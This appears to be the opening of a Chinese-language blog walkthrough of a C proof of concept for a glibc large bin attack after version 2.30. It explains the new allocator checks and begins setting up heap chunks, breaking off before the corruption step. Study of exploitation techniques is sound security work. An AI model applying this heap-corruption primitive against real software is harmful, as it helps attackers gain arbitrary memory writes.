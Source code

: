 首先放一下我们的源代码，这里没有做任何修改。

```
#include&lt;stdio.h&gt;
#include&lt;stdlib.h&gt;
#include&lt;assert.h&gt;

/*

A revisit to large bin attack for after glibc2.30

Relevant code snippet :

    if ((unsigned long) (size) &lt; (unsigned long) chunksize_nomask (bck-&gt;bk))`{`
        fwd = bck;
        bck = bck-&gt;bk;
        victim-&gt;fd_nextsize = fwd-&gt;fd;
        victim-&gt;bk_nextsize = fwd-&gt;fd-&gt;bk_nextsize;
        fwd-&gt;fd-&gt;bk_nextsize = victim-&gt;bk_nextsize-&gt;fd_nextsize = victim;
    `}`


*/

int main()`{`
  /*Disable IO buffering to prevent stream from interfering with heap*/
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  setvbuf(stderr,NULL,_IONBF,0);

  printf("\n\n");
  printf("Since glibc2.30, two new checks have been enforced on large bin chunk insertion\n\n");
  printf("Check 1 : \n");
  printf("&gt;    if (__glibc_unlikely (fwd-&gt;bk_nextsize-&gt;fd_nextsize != fwd))\n");
  printf("&gt;        malloc_printerr (\"malloc(): largebin double linked list corrupted (nextsize)\");\n");
  printf("Check 2 : \n");
  printf("&gt;    if (bck-&gt;fd != fwd)\n");
  printf("&gt;        malloc_printerr (\"malloc(): largebin double linked list corrupted (bk)\");\n\n");
  printf("This prevents the traditional large bin attack\n");
  printf("However, there is still one possible path to trigger large bin attack. The PoC is shown below : \n\n");

  printf("====================================================================\n\n");

  size_t target = 0;
  printf("Here is the target we want to overwrite (%p) : %lu\n\n",&amp;target,target);
  size_t *p1 = malloc(0x428);
  printf("First, we allocate a large chunk [p1] (%p)\n",p1-2);
  size_t *g1 = malloc(0x18);
  printf("And another chunk to prevent consolidate\n");

  printf("\n");

  size_t *p2 = malloc(0x418);
  printf("We also allocate a second large chunk [p2]  (%p).\n",p2-2);
  printf("This chunk should be smaller than [p1] and belong to the same large bin.\n");
  size_t *g2 = malloc(0x18);
  printf("Once again, allocate a guard chunk to prevent consolidate\n");

  printf("\n");

  free(p1);
```